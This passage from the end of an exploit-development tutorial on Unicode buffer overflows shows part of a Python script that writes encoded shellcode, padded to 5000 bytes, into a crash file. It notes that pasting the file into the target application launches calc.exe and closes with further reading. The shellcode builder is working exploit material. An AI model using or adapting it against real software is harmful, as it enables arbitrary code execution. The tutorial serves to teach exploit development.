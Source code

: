 ```
40.	buf += b"\x4b\x30\x4c\x4e\x31\x34\x38\x4b\x33\x30\x48\x4b\x51"  
41.	buf += b"\x4a\x31\x30\x51\x54\x4b\x50\x59\x4d\x50\x4d\x31\x5a"  
42.	buf += b"\x33\x44\x4b\x31\x39\x4c\x58\x39\x53\x4e\x5a\x30\x49"  
43.	buf += b"\x44\x4b\x4e\x54\x34\x4b\x4d\x31\x4a\x36\x4e\x51\x4b"  
44.	buf += b"\x4f\x36\x4c\x59\x31\x38\x4f\x4c\x4d\x4b\x51\x49\x37"  
45.	buf += b"\x4e\x58\x4b\x30\x52\x55\x4b\x46\x4c\x43\x43\x4d\x4c"  
46.	buf += b"\x38\x4f\x4b\x43\x4d\x4e\x44\x42\x55\x5a\x44\x30\x58"  
47.	buf += b"\x54\x4b\x52\x38\x4e\x44\x4b\x51\x59\x43\x31\x56\x34"  
48.	buf += b"\x4b\x4c\x4c\x50\x4b\x34\x4b\x50\x58\x4d\x4c\x4b\x51"  
49.	buf += b"\x39\x43\x44\x4b\x4d\x34\x44\x4b\x4b\x51\x4a\x30\x35"  
50.	buf += b"\x39\x30\x44\x4d\x54\x4d\x54\x31\x4b\x51\x4b\x53\x31"  
51.	buf += b"\x50\x59\x50\x5a\x32\x31\x4b\x4f\x49\x50\x31\x4f\x31"  
52.	buf += b"\x4f\x31\x4a\x34\x4b\x4e\x32\x4a\x4b\x54\x4d\x51\x4d"  
53.	buf += b"\x51\x5a\x4b\x51\x54\x4d\x54\x45\x46\x52\x4b\x50\x4d"  
54.	buf += b"\x30\x4b\x50\x32\x30\x33\x38\x4e\x51\x34\x4b\x42\x4f"  
55.	buf += b"\x34\x47\x4b\x4f\x49\x45\x57\x4b\x5a\x50\x38\x35\x45"  
56.	buf += b"\x52\x52\x36\x42\x48\x37\x36\x34\x55\x47\x4d\x55\x4d"  
57.	buf += b"\x4b\x4f\x4a\x35\x4f\x4c\x4c\x46\x33\x4c\x4c\x4a\x43"  
58.	buf += b"\x50\x4b\x4b\x39\x50\x33\x45\x4d\x35\x47\x4b\x50\x47"  
59.	buf += b"\x4e\x33\x42\x52\x42\x4f\x31\x5a\x4b\x50\x50\x53\x4b"  
60.	buf += b"\x4f\x49\x45\x52\x43\x53\x31\x42\x4c\x53\x33\x4e\x4e"  
61.	buf += b"\x32\x45\x34\x38\x53\x35\x4b\x50\x41\x41"  
62.	  
63.	buf += b"\x44" * (5000 - len(buf))  
64.	  
65.	f.write(buf)  
66.	f.close()  
```

Now all we have to do is run the code, copy the contents of crash-6.txt to our copy buffer, and inject them into our application and watch calc.exe pop up for us.

Completed exploit

### Conclusion

For a substantial amount of time, it was believed that Unicode overflows were not exploitable and that they could only be used to cause a denial of service condition. However, in 2002, Chris Anley published a [paper](https://web.archive.org/web/20020202013600/http:/www.nextgenss.com/papers/unicodebo.pdf) demonstrating this conclusion to be false. If you would like some further reading on this topic, I would suggest reading [Building IA32 'Unicode-Proof' Shellcodes](http://phrack.org/issues/61/11.html) paper published in [Phrack](http://phrack.org/) in 2003.
